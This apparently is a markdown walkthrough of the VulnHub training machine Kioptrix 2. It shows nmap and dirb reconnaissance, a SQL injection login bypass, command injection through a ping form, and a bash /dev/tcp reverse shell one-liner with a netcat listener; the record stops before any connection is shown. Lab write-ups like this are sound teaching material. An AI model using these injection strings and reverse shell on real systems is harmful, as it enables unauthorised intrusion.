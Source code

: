 # Kioptrix 2
Machine IP: 192.168.50.254\
Our IP: 192.168.50.9
1. First we ```nmap 192.168.50.254```
```
root@kali:~/Desktop/VulnHub/Kioptrix2# nmap 192.168.50.254
Starting Nmap 7.70 ( https://nmap.org ) at 2018-04-09 20:08 EDT
Nmap scan report for 192.168.50.254
Host is up (0.0014s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
MAC Address: 00:0C:29:06:B5:C3 (VMware)
```
2. Check the site since port 80 is open from our nmap. We will see the following page:\
![Screenshot][k2homepage]
	* Let's see if there are any other directories we can look at using ```dirb http://192.168.50.254 -r```
```
---- Scanning URL: http://192.168.50.254/ ----
+ http://192.168.50.254/cgi-bin/ (CODE:403|SIZE:290)                                                                                                                           
+ http://192.168.50.254/index.php (CODE:200|SIZE:667)                                                                                                                          
==> DIRECTORY: http://192.168.50.254/manual/                                                                                                                                   
+ http://192.168.50.254/usage (CODE:403|SIZE:287)     
```
*	* Navigating to any of the 403 pages will give the following page:
![Screenshot][k2errorpage]
	* We now know it is running ```Apache 2.0.52 (CentOS)```\
3. Testing the login fields
 	* The first thing to check is if the login fields are properly sanitized. \
Username input:```user:' or ''='```\
Password input:```password' or ''='```\
This brought me into a harmless looking ping page:
![Screenshot][k2pingpage]
4. Testing the ping page out:
	* Let's run a normal ping and see what happens, like ```8.8.8.8```
![Screenshot][k2pingpage2]
	* Time to find out if it can do anything interesting: ```;echo cheese```
![Screenshot][k2pingpage3]
	* Looks like it executes commands directly onto the system
5. Try to establish a reverse shell:
	* We can try to establish a shell using ncat
	* Run ```nc -nvlp 443``` on attacking machine:
```
root@kali:~/Desktop/VulnHub/Kioptrix2# nc -nvlp 443
listening on [any] 443 ...
```
	* Run ```;bash -i >& /dev/tcp/192.168.50.9/443 0>&1``` in the ping input
	* The following should be displayed in your netcat listener
```
root@kali:~/Desktop/VulnHub/Kioptrix2# nc -nvlp 443
listening on [any] 443 ...
```

[k2homepage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2homepage.png
[k2pingpage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2pingpage.png
[k2errorpage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/k2errorpage.png
[k2pingpage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2pingpage.png
[k2pingpage2]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2pingpage2.png
[k2pingpage3]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2pingpage3.png